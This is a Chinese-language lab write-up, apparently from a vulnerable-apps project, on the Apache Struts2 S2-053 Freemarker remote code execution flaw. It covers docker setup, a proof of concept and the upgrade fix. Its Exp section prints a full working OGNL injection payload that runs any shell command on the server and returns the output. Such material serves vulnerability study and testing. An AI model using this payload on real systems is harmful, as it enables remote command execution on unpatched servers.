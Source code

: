 ```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-053)"
date: 2017-09-08 00:56:15 +0800
image: '/assets/img/'
description: 'Struts2 Freemarker tags 远程代码执行漏洞(S2-053)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 远程代码执行漏洞(S2-053)'
introduction: 'Struts2 远程代码执行漏洞(S2-053)'
---
```

<style type="text/css">
.highlight pre{
  white-space: pre-wrap;
}    
</style>
### 漏洞信息

 * [S2-053 公告](https://cwiki.apache.org/confluence/display/WW/S2-053)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_struts2_s2-053
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-053
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### PoC

1. 访问 Demo 页面, 随便输入值，可看到页面输出我们提交的值
 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-053/poc-1.png)

2. 在输入框中输入 `%{100-3}`，然后提交，发现 `%{}` 中的表达式被执行
 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-053/poc-2.png)

#### Exp

命令执行 Exp(有回显):

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

替换Exp中的 `(#cmd='whoami')` 中的命令即可

 ![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-053/exp-1.png)

### 修复建议

升级Apache struts 至 2.5.12 版本 或者 2.3.34 版本

### 参考链接

* [S2-053 公告](https://cwiki.apache.org/confluence/display/WW/S2-053)
* [S2-053 复现分析过程(附POC) - 猎户攻防实验室](https://mp.weixin.qq.com/s/4CiKgVn7Y-hWUKRjgECsuA)
